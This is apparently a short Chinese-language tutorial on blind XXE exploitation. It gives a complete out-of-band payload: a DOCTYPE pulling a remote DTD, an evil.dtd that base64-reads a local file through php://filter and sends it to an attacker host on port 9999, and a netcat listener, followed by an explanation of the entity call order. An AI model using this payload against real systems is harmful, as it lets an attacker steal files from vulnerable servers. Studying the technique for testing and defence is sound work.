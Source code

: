 ```yaml
---
title: "XXE 无回显利用方式总结"
id: zhfly3588
---
```


## XXE 无回显利用方式总结

可以使用外带数据通道提取数据，先用file://或php://filter获取目标文件的内容，然后将内容以http请求发送到接收数据的服务器（攻击服务器）

```
<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://ip/test.dtd">
%remote;%int;%send;
]> 
```

##### evil.dtd的内容，内部的`%`号要进行实体编码成`%`

> 这里已经改好了

```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///D:/test.txt">
<!ENTITY % int "<!ENTITY &#37 send SYSTEM 'http://ip:9999?p=%file;'>"> 
```

最后用nc进行本地监听

```
nc -lvv 9999 
```

**整个调用过程：**

我们从 payload 中能看到 连续调用了三个参数实体 %remote;%int;%send;，这就是我们的利用顺序，%remote 先调用，调用后请求远程服务器上的 test.dtd ，有点类似于将 test.dtd 包含进来，然后 %int 调用 test.dtd 中的 %file, %file 就会去获取服务器上面的敏感文件，然后将 %file 的结果填入到 %send 以后(因为实体的值中不能有 %, 所以将其转成html实体编码 `&#37;`)，我们再调用 %send; 把我们的读取到的数据发送到我们的远程 vps 上，这样就实现了外带数据的效果，完美的解决了 XXE 无回显的问题。